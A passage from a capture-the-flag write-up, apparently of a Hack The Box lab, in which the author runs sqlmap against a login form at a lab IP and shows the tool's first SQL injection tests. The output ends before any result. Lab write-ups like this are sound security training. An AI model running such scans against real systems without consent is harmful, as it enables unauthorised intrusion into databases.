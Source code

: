   ![](images/homepage.png)
  
</div>  
<br/>

Since the questions on the challenge page refer to *sql injection*, we immediately launch sql map against the login form:
<br/>

```console
sqlmap -u http://10.129.85.215 / --data="username=user&password=pwd" --method POST --dbs --batch      ─╯
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:48:11 /2022-10-04/

[16:48:11] [INFO] testing connection to the target URL
[16:48:11] [INFO] checking if the target is protected by some kind of WAF/IPS
[16:48:12] [INFO] testing if the target URL content is stable
[16:48:12] [INFO] target URL content is stable
[16:48:12] [INFO] testing if POST parameter 'username' is dynamic
[16:48:12] [WARNING] POST parameter 'username' does not appear to be dynamic
[16:48:12] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[16:48:12] [INFO] testing for SQL injection on POST parameter 'username'
[16:48:12] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:48:13] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
```